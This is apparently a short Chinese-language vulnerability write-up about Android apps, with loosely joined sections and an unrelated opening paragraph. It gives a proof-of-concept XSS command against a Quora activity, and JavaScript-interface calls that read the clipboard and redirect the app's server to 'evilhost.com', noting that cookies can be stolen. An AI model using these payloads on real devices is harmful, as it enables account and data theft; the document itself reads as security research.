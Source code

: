 不难看出，其实如果搞懂了Instant App程序架构，那么你在进行程序开发时就会变得易如反掌了。相信看完这篇文章后，后续的课程对于聪明的你来讲，简直可以轻松驾驭。

至此，关于Instant App程序开发，我们已经摸清了头绪。我们可以很轻松的驾驭它，并且应用到自己的项目中了。

#### 0x02 涉及的Android class的内容

enabled and exported

#### 0x03 和语言有关的理解

### 漏洞分析
August 31, 2017
net.gotev.uploadservice.UploadService，UploadService组件 enabled 且 exported。导致任意第三方软件都可以启用这个组件，导致可以任意文件上传。

使用Instant Apps 直接从 web-browser 进行攻击


### 构造PoC
0x01 准备
Quora 		ok
Instant App ok

## Quora 导出组件导致的XSS
xss可以偷cookie，登陆账号，本质上为可以执行任意js代码，那么，就可以访问cookie然后回传。

poc:
  am start -n com.quora.android/com.quora.android.ActionBarContentActivity -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
  
可以加载第三方js
可以通过一些定义的js接口做一些事情，例如获取剪切板内容
QuoraAndroid.getClipboardData()
QuoraAndroid.sendMessage(
"{\"messageName\":\"switchInstance\",\"data\":{\"host\":\"evilhost.com\",\"instance_name\":\"evilhost\",\"scheme\":\"https\"}}"
);
change the server address.

extra:
https://labs.mwrinfosecurity.com/blog/webview-addjavascriptinterface-remote-code-execution/